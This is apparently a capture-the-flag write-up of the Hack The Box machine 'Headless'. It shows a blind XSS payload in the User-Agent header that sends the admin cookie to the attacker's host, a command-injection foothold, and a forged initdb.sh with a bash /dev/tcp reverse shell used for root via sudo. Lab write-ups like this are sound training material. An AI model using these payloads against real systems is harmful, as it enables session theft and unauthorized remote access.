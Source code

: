 ```yaml
---
date: 2024-12-16
categories:
    - Documentation
tags:
    - Hack The Box
    - Easy
    - Linux
---
```


# Headless Writeup
## About Headless

Headless is an easy-difficulty Linux machine that features a `Python Werkzeug` server hosting a website. The website has a customer support form, which is found to be vulnerable to blind Cross-Site Scripting (XSS) via the `User-Agent` header. This vulnerability is leveraged to steal an admin cookie, which is then used to access the administrator dashboard. The page is vulnerable to command injection, leading to a reverse shell on the box. Enumerating the user’s mail reveals a script that does not use absolute paths, which is leveraged to get a shell as root.

## Walkthrough
As always, I begin by enumerating open ports using
```bash
nmap 10.10.11.8 -sC -sV -oA nmap -p-
```
<div style="text-align: center;">
    <img src="image-11.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-11.png) -->
We can see, there are 2 tcp ports open, 22 and 5000
<br>
Port 5000 shows this, and by clicking `For questions`, we are directed to `/support` page
<div style="text-align: center;">
    <img src="image-23.png" alt="alt text" width="500">
</div>
<div style="text-align: center;">
    <img src="image-24.png" alt="alt text" width="400">
</div>
<!-- ![alt text](image-23.png)
![alt text](image-24.png) -->
I tried several payloads, and turns out if we submit something like `<script>`, it will show us

<div style="text-align: center;">
    <img src="image-25.png" alt="alt text" width="500">
</div>

this `Hacking Attempt Detected` pop up. We can see there is `is_admin` cookie, but its not a valid admin cookie since its ours.
It says admin will investigate it, which might be vulnerable to blind XSS.

Then, I opened Burpsuite to intercept my request, and send it to repeater. Since changing the form parameters will result in the detection, here I changed the `User-Agent` header instead, to this :
```js
<script>
    var img = new Image();
    img.src = "http://10.10.14.15:1443/?cookie=" + document.cookie;
</script>
```

Before sending the request, I opened a nc listener on port 1443 by :
```bash
nc -lvnp 1443
```
<div style="text-align: center;">
    <img src="image-12.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-12.png) -->
After everything is set, I sent the request, and we indeed get the cookie from admin!
<div style="text-align: center;">
    <img src="image-13.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-13.png) -->
Using the `is_admin` cookie above, I changed my browser's `is_admin` cookie in the storage.
<div style="text-align: center;">
    <img src="image-15.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-15.png) -->
Gobuster reveals another page that we can use the cookie to abuse
<div style="text-align: center;">
    <img src="image-26.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-26.png) -->
This is the `/dashboard` page, but nothing seems interesting, so I intercept my request once again in Burpsuite.
<div style="text-align: center;">
    <img src="image-14.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-14.png) -->
And, turns out we can abuse the `date` parameter to send remote code execution as shown here! By this, we successfully obtained the user flag :D
<div style="text-align: center;">
    <img src="image-17.png" alt="alt text" width="700">
</div>
<!-- ![alt text](image-17.png) -->
Here I sent reverse shell payload to interactive shell as `dvir`. 
<div style="text-align: center;">
    <img src="image-19.png" alt="alt text" width="700">
</div>
<!-- ![alt text](image-19.png) -->

## Privilege Escalation
First thing I tried is using `sudo -l` to get list of my sudo permissions. Turns out, `dvir` user can sudo of `/usr/bin/sysheck` file. Below is shown the `/usr/bin/syscheck` : 
<div style="text-align: center;">
    <img src="image-21.png" alt="alt text" width="700">
</div>
<!-- ![alt text](image-21.png) -->
<div style="text-align: center;">
    <img src="image-27.png" alt="alt text" width="500">
</div>
<!-- ![alt text](image-27.png) -->
Since it uses `initdb.sh` from our current directory, we can forge our `initdb.sh` to escalate privilege to root (from sudo)!

I used this payload as my `initdb.sh` :
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.15/1445 0>&1
```
Also, don't forget to set execute permission (I just `chmod 777 initdb.sh`).
Then I once again set a nc listener on another terminal, and execute `sudo /usr/bin/syscheck` with our malicious `initdb.sh`
<div style="text-align: center;">
    <img src="image-20.png" alt="alt text" width="600">
</div>
<!-- ![alt text](image-20.png) -->
and yay, we obtained shell to root! Here is our flag :
<div style="text-align: center;">
    <img src="image-22.png" alt="alt text" width="400">
</div>
<!-- ![alt text](image-22.png) -->
